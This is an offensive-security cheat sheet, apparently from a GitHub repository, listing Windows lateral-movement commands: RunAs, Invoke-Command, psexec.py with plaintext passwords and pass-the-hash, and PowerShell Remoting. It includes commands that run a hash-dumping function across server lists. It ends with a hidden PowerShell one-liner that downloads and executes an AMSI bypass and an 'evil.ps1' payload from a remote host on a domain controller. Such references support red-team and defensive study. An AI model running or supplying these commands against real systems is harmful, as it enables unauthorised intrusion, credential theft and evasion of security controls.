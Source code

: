 ### RunAs

```powershell
# CMD
runas /u:user powershell.exe

# PowerShell
$cred = New-Object System.Management.Automation.PSCredential('<HOSTNAME>\<USERNAME>', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
$computer = "PC01"

# Process.Start
[System.Diagnostics.Process]::Start("C:\Windows\System32\cmd.exe", "/c ping -n 1 10.10.13.37", $cred.Username, $cred.Password, $computer)

# Start-Process
Start-Process -FilePath "C:\Windows\System32\cmd.exe" -ArgumentList "/c ping -n 1 10.10.13.37" -Credential $cred

# Invoke-Command
Invoke-Command -ComputerName <HOSTNAME> -ScriptBlock { whoami } -Credential $cred

$s = New-PSSession -ComputerName <HOSTNAME> -Credential $cred
Invoke-Command -ScriptBlock { whoami } -Session $s
```

### SMB 
```bash
psexec.py 'domain'/'user':'Passw0rd!'@192.168.11.1
rlwrap -cAr psexec.py -hashes :[... hash ...] 'domain'/'user'@192.168.11.1 powershell
```

### SPN-Jacking

### PSRemoting
Windows
```powershell
# PowerShell Remoting
$SecPassword = ConvertTo-SecureString 'VictimUserPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\targetuser', $SecPassword)

# Run a command remotely (can be used on multiple machines at once)
Invoke-Command -Credential $Cred -ComputerName dc.targetdomain.com -ScriptBlock {whoami;hostname;Get-Process -IncludeUserName}

#To many computers
Invoke-Command -Credential $cred -ComputerName (Get-Content ./listServers.txt)

#Execute scripts from files
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)

#Execute locally loaded function on the remote machines
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList

#Bypass AMSI & Execute C2
Invoke-Command -ScriptBlock {powershell.exe -Sta -Nop -Window Hidden -Command "iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/AMSIBypass.ps1');iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/evil.ps1')"} -ComputerName dc.targetdomain.com
```
